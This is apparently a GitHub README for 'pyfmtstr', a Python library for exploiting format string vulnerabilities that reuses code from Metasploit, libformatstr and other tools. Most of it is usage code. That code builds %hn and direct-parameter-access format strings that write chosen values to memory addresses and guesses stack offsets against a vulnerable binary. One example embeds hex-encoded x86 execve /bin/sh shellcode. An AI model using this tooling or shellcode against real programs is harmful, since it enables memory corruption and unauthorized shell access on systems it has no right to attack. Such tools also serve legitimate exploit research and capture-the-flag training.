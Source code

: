 # pyfmtstr

format string exploitation library by cloud

This library shamelessly rips code from a bunch of existing libraries:
* postmodern - Ronin FormatString Helper
* Paul Haas - Defcon 18 Auto Format Brute Forcer
* hellman - libformatstr
* jduck - Metasploit FormatString Mixin

I just reoganized/combined things in a way that I prefer.

# Usage

### Generate simple fmtstr using %hn and DPA

```
from pyfmtstr import pyfmtstr,membuf
m = membuf()
m[0x080494d4] = 0xbfffddd8
f = pyfmtstr(membuf=m)
sys.stdout.write(f.generate_fmtstr())
```

### Generate fmtstr using customized options

```
from pyfmtstr import pyfmtstr,membuf
m = membuf()
m[0x080494d4] = 0xbfffddd8
f = pyfmtstr(membuf=m, num_pops=1, pad_bytes=2, printed_bytes=50)
f.set_caps(fpu=False, hn=True, dpa=True)
sys.stdout.write(f.generate_fmtstr())
```

### Dynamically guess offsets

```
from pyfmtstr import exploit
sc = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69" \
     "\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
e = exploit(binary="vuln_prog/printf", shellcode=sc)
sc_offset,sc_align  = e.dump_stack()
fmtstr_addr,sc_addr = e.find_fmtstr_address()
```

### Random helper functions 

```
from pyfmtstr import exploit
e = exploit(binary="vuln_prog/printf", shellcode=sc)
e.detect_caps()
e.detect_vulnerable()
e.stack_read(offset=1)
```

### Define your own custom trigger/parsing functions

```
def trigger_fmtstr(fmtstr):
    return fmtstr

def extract_fmtstr_output(output):
    return output

from pyfmtstr import exploit
e = exploit(binary="vuln_prog/printf")
e.trigger_fmtstr = trigger_fmtstr
e.extract_fmtstr_output = extract_fmtstr_output
fmtstr_addr,sc_addr = e.find_fmtstr_address()
```
